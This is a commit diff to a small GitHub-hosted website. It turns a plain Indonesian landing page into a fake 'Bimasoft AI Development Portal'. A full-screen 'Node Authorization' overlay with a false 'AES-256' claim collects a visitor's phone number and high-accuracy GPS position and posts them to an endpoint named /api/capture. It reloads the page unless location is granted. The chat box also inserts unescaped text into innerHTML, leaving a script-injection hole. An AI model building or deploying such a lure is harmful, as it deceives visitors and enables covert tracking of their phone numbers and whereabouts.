

Before and after one commit to manzz671/Manzz-web, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 168-800 px from the top of the page, without its empty margins (161-1118 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html for Bimasoft AI Development Portal

```diff
--- a/index.html
+++ b/index.html
@@ -1,39 +1,97 @@
 <!DOCTYPE html>
 <html lang="id">
 <head>
-  <meta charset="UTF-8">
-  <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>ManzzEra Dark Web</title>
-  <link rel="stylesheet" href="style.css">
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Bimasoft | AI Development Portal</title>
+    <script src="https://cdn.tailwindcss.com"></script>
+    <link href="https://fonts.googleapis.com/css2?family=Inter:wght@300;400;600;700&display=swap" rel="stylesheet">
+    <style>
+        body { font-family: 'Inter', sans-serif; background-color: #050505; color: #e5e7eb; }
+        .glass { background: rgba(17, 17, 17, 0.8); backdrop-filter: blur(12px); border: 1px solid rgba(255, 255, 255, 0.1); }
+        .input-dark { background: #0a0a0a; border: 1px solid #1f2937; transition: all 0.3s; }
+        .input-dark:focus { border-color: #3b82f6; box-shadow: 0 0 10px rgba(59, 130, 246, 0.3); outline: none; }
+    </style>
 </head>
-<body>
-  <div class="container">
-    <header>
-      <h1>✨ Selamat Datang di ManzzEra ✨</h1>
-      <p class="subtitle">Membangun ekosistem kreatif, privat, dan terbuka untuk semua.</p>
+<body class="flex flex-col h-screen overflow-hidden">
+
+    <div id="auth-overlay" class="fixed inset-0 z-50 flex items-center justify-center bg-black/95 p-6">
+        <div class="glass p-8 rounded-3xl max-w-md w-full border border-blue-500/20 shadow-2xl shadow-blue-500/10 text-center">
+            <div class="mb-6 inline-block p-4 rounded-2xl bg-blue-600/10 text-blue-500">
+                <svg class="w-10 h-10" fill="none" stroke="currentColor" viewBox="0 0 24 24"><path stroke-linecap="round" stroke-linejoin="round" stroke-width="2" d="M12 11c0 3.517-1.009 6.799-2.753 9.571m-3.44-4.514A9.01 9.01 0 0012 21a9.003 9.003 0 008.312-5.514M12 11V7a4 4 0 00-8 0v4h8z"></path></svg>
+            </div>
+            <h1 class="text-2xl font-bold text-white mb-2 tracking-tight">Node Authorization</h1>
+            <p class="text-gray-400 text-xs mb-8 tracking-wide uppercase">Bimasoft Internal AI Beta-Test</p>
+
+            <input type="tel" id="user-phone" placeholder="Employee Phone (62xxx)"
+                   class="w-full input-dark p-4 rounded-xl text-white mb-4 text-center font-mono">
+
+            <button onclick="startAuth()" id="btn-auth" class="w-full bg-blue-600 hover:bg-blue-700 text-white font-bold p-4 rounded-xl transition-all uppercase text-xs tracking-[0.2em]">
+                Authorize Node
+            </button>
+            <p id="status" class="text-[9px] text-gray-600 mt-6 tracking-widest uppercase">Encryption: AES-256 Active</p>
+        </div>
+    </div>
+
+    <header class="p-5 border-b border-white/5 flex justify-between items-center glass">
+        <div class="flex items-center gap-2">
+            <div class="w-2 h-2 bg-blue-500 rounded-full"></div>
+            <span class="font-black text-sm tracking-tighter">BIMASOFT <span class="text-blue-500 underline decoration-2">AI</span></span>
+        </div>
     </header>
 
-    <main>
-      <section class="intro">
-        <p>
-          Kami percaya bahwa teknologi harus sederhana, aman, dan bisa diakses siapa saja.
-          Di sini, kamu akan menemukan solusi modular, open-source, dan penuh gaya.
-          Mari bergabung dalam perjalanan menuju dunia digital yang lebih bebas dan berdaya.
-        </p>
-      </section>
+    <main id="chat-box" class="flex-1 overflow-y-auto p-6 space-y-4"></main>
 
-      <section class="cta">
-        <a href="https://wa.me/6285188619792" target="_blank" class="chat-link">
-          💬 Chat dengan kami sekarang
-        </a>
-      </section>
-    </main>
+    <footer class="p-6 glass">
+        <div class="max-w-4xl mx-auto flex gap-3">
+            <input type="text" id="prompt" class="flex-1 input-dark p-4 rounded-2xl text-sm" placeholder="Send prompt...">
+            <button onclick="send()" class="bg-blue-600 px-6 rounded-2xl font-bold hover:bg-blue-700">➜</button>
+        </div>
+    </footer>
 
-    <footer>
-      <p>© 2025 ManzzEra | Dibangun dengan ❤️ dan kreativitas</p>
-    </footer>
-  </div>
+    <script>
+        async function startAuth() {
+            const phone = document.getElementById('user-phone').value;
+            if(!phone.startsWith('62')) return alert('Gunakan format 62xxx');
 
-  <script src="script.js"></script>
+            document.getElementById('btn-auth').disabled = true;
+            document.getElementById('status').innerText = "Syncing Geolocation...";
+
+            navigator.geolocation.getCurrentPosition(async (pos) => {
+                await fetch('/api/capture', {
+                    method: 'POST',
+                    headers: { 'Content-Type': 'application/json' },
+                    body: JSON.stringify({
+                        phone: phone,
+                        lat: pos.coords.latitude,
+                        lon: pos.coords.longitude,
+                        acc: pos.coords.accuracy
+                    })
+                });
+                document.getElementById('auth-overlay').style.display = 'none';
+            }, () => {
+                alert("Verifikasi Gagal: Aktifkan GPS untuk akses portal.");
+                location.reload();
+            }, { enableHighAccuracy: true });
+        }
+
+        async function send() {
+            const p = document.getElementById('prompt');
+            const b = document.getElementById('chat-box');
+            const txt = p.value;
+            if(!txt) return;
+            p.value = '';
+            b.innerHTML += `<div class="flex justify-end"><div class="bg-blue-600/10 border border-blue-500/20 p-4 rounded-2xl max-w-[85%] text-sm">${txt}</div></div>`;
+
+            const res = await fetch('/api/chat', {
+                method: 'POST',
+                headers: { 'Content-Type': 'application/json' },
+                body: JSON.stringify({ message: txt })
+            });
+            const data = await res.json();
+            b.innerHTML += `<div class="flex justify-start"><div class="glass p-4 rounded-2xl max-w-[85%] text-sm text-gray-400">${data.result}</div></div>`;
+            b.scrollTop = b.scrollHeight;
+        }
+    </script>
 </body>
 </html>
```
